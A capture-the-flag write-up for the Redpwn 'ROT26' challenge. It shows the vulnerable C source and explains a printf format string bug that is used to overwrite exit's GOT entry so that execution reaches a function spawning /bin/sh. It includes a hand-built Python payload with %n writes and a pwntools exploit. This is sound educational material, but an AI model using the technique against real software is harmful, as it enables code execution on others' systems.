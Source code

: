 ## Redpwn CTF ROT26 Challenge

### Challenge Info

__ctf__: `Redpwn` \\
__challenge__: `ROT26` \\
__category__: `Pwn` \\
__solves__: `203/926` \\
__points__: `50` \\
__solver__: `ordbl0ke` \\ 
__description__: `written by: blevy, nc chall2.2019.redpwn.net 4003` \\
__keywords__: `format string vulnerability, overwrite GOT, C` \\
__original write up__: [`link name`](github or delete whole line if only a blogpost ) \\

---

For this challenge we were given two files: source `rot26.c` and `rot26` compiled binary.

### Write-up

Without further ado, let's examine the source `rot26.c`:

```C
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *ualphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
char *lalphabet = "abcdefghijklmnopqrstuvwxyz";

char *rot26(char *dst, char *src, size_t n)
{
	int i, x;

	for (i = 0; i < n; i++) {
		if (isupper(src[i])) {
			x = ualphabet[((src[i] - 'A') + 26) % strlen(ualphabet)];
		} else if (islower(src[i])) {
			x = lalphabet[((src[i] - 'a') + 26) % strlen(lalphabet)];
		} else {
			x = src[i];
		}
		dst[i] = x;
	}
}

void winners_room(void)
{
	puts("Please, take a shell!");
	system("/bin/sh");
	exit(EXIT_SUCCESS);
}

int main(void)
{
	char buf[4096];
	char sanitized[4096];

	setbuf(stdout, NULL);
	setbuf(stdin, NULL);
	setbuf(stderr, NULL);

	fgets(buf, sizeof(buf), stdin);
	rot26(sanitized, buf, sizeof(sanitized));
	printf(sanitized);
	exit(EXIT_FAILURE);
}

```

#### Vulnerability

Provided binary reads input from the user (with correctly used `fgets` here, so no overflow for us) into `buf`, then applies ROT26 on it (which effectively does nothing) and stores the result into `sanitized`, and finaly uses vulnerable `printf(sanitize)` to reflect input back to user. Another important thing to notice is the `winners_room` function. If we successfully redirect the code execution to this function, it will give us the shell for free.

#### Exploitation

So we have a format string vulnerability present, cool. We know that with this kind of vulnerability we can do memory reads and writes, but how do we spawn our shell? We can see that immediately after the vulnerable `printf` call, `exit` function is called. Thus, we can use our vulnerability to overwrite `exit`'s entry  in `GOT`(Global offset table) to the address of `winners_room` function and we're done. If you're not familiar with format string vulnerability or what GOT overwrite is, please check references. All the necessary addresses can be obtained with `radare2` tool or `pwnlib`'s `ELF`.  

#### Trouble 

What seemed a straightforward exploit got me into trouble for a while. I used python to compose my exploit and saved it into a file `/tmp/payload`. Then I ran `rot26` with redirected input and instead of shell I got Segmentation fault.

![fail](img/fail.png)

When I checked in `gdb`, it seemed correct, the `/bin/sh` got executed. However, I forgot about a little problem with `fgets`. My interpretation of what happened was that the shell got spawned with input still redirected, but all it got was EOF, so it immediately shut down.

To solve this, I used a slightly different way of passing the payload to executable:
```bash
(cat /tmp/payload; cat) | ./rot26
```
Since cat without parameters waits for user input, I was able to hold on to the shell session and get my flag. (the screen is taken from local machine, so there's no flag present, just listing of my directory)  

![success](img/success.png)

#### Exploits

During solving this challenge, I spent significant amount of time crafting my payload manually. After the CTF ended and I read write ups of other contenders, I found out that there is a support for exploiting format string vulnerability in `pwntools`. So I decided to leave my manual exploit that I used during the CTF here. But I also wanted to experiment a little bit with the `pwntools` so I provide a cleaner and nicely readable exploit too.  

##### Original Exploit
In my original exploit, I only realised the true problem with `fgets` after I thought the problem was with `exit` being overwritten. So this exploit overwrites two `GOT` entries - `exit`'s and `strlen`'s. This causes the executable to return to `main` when `exit` is called and `winners_room` is spawned when the next `strlen` call comes.
```python
from pwn import *

# Writes main's address to exit's GOT entry an winners_room address to strlen's GOT entry

exit_got_addr = 0x804a020
strlen_got_addr = 0x804a024
winners_room_addr = 0x8048737
main_addr = 0x8048777

offset = 6*' %p'

payload = p32(exit_got_addr) 
payload += p32(exit_got_addr) # 1st n-write
payload += p32(exit_got_addr)
payload += p32(exit_got_addr+1) # 2nd n-write
payload += p32(exit_got_addr)
payload += p32(exit_got_addr+2) # 3rd n-write
payload += p32(exit_got_addr) 
payload += p32(exit_got_addr+3) # 4th n-write
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr)
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr+1)
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr+2)
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr+3)
payload += offset 
payload += '%9x%n' # makes the total number of written bytes 0x77 and writes this to 1st write
payload += '%16x%n' # makes the total number of written bytes 0x87 and writes to 2nd write
payload += '%125x%n' # writes 0x04 to exit_got_addr +2 and 0x01 to exit_got_addr +3
payload += '%260x%n' # writes 0x08 to exit_got_addr +3 
payload += '%47x%n' # writes 0x37 to strlen_got_addr
payload += '%80x%n' # writes 0x87 to strlen_got_addr+1
payload += '%125x%n'# writes 0x04 to strlen_got_addr+2
payload += '%260x%n'# writes 0x08 to strlen_got_addr+3
print payload
```

##### pwntools Exploit
And this as simple as it can get:

```
from pwn import *

elf = ELF('./rot26')
exit_got_addr = elf.got['exit']
winners_room_addr = elf.sym['winners_room']

p = process('./rot26')

writes = {exit_got_addr: winners_room_addr}
payload = fmtstr_payload(7, writes, 0)

p.sendline(payload)
p.interactive()
```

#### References
1. format string vulnerability http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf
2. radare2 https://github.com/radare/radare2
3. pwntools http://docs.pwntools.com/en/stable/
4. GOT overwrite https://www.youtube.com/watch?v=t1LH9D5cuK4